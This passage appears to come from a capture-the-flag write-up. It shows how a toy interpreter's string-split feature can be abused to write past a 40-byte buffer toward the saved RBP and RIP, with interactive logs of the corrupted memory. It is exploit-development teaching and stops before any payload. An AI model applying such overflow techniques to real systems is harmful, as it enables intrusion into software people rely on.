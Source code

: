 This would mean that if we redeclare `a0`, we would overwrite into stack memory that is considered out-of-bounds for that string and eventually touch stored RBP and RIP registers.

## Crafting exploit

In order to reach stored register values, we can try to write full 40-byte string variables and split them at the end after which a second variable is created pointing to the end of the initial string. The second variable is again redeclared to a full 40-byte string variable and split until we get to the memory area where register values are stored.

There is one additional detail that one must have in mind, after few iterations of the aformentioned technique, the size of the variable will end up being larger than 40 bytes meaning that we can split by characters that follows after. With careful interactive testing, one should observe that variable name is what follows after 40-byte string value:
```
>>> var_name = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMN"
>>> var_dump
[0] -> (48/40) var_name = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNvar_name'
[1] -> (0/0)  = ''
[2] -> (0/0)  = ''
[3] -> (0/0)  = ''
[4] -> (0/0)  = ''
[5] -> (0/0)  = ''
[6] -> (0/0)  = ''
[7] -> (0/0)  = ''
[8] -> (0/0)  = ''
[9] -> (0/0)  = ''
[10] -> (0/0)  = ''
[11] -> (0/0)  = ''
[12] -> (0/0)  = ''
[13] -> (0/0)  = ''
[14] -> (0/0)  = ''
[15] -> (0/0)  = ''
```

Here are a few iterations that demonstrate a segfault (middle removed for brevity):
```
>>> a = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMN"
>>> a.split(M)
>>> var_dump
[0] -> (38/38) a = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKL'
[1] -> (2/2) a0 = 'Na'
[2] -> (0/0)  = ''
[3] -> (0/0)  = ''
[4] -> (0/0)  = ''
[5] -> (0/0)  = ''
[6] -> (0/0)  = ''
[7] -> (0/0)  = ''
[8] -> (0/0)  = ''
[9] -> (0/0)  = ''
[10] -> (0/0)  = ''
[11] -> (0/0)  = ''
[12] -> (0/0)  = ''
[13] -> (0/0)  = ''
[14] -> (0/0)  = ''
[15] -> (0/0)  = ''
>>> a0 = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMN"
>>> a.split(M)
no occurence of M found in a
>>> var_dump
[0] -> (38/38) a = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKL'
[1] -> (42/40) a0 = 'abcdefghi\x02\x00\x00\x00\x06\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x90\u\x11\x04\x7f\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
[2] -> (0/0)  = ''
[3] -> (0/0)  = ''
```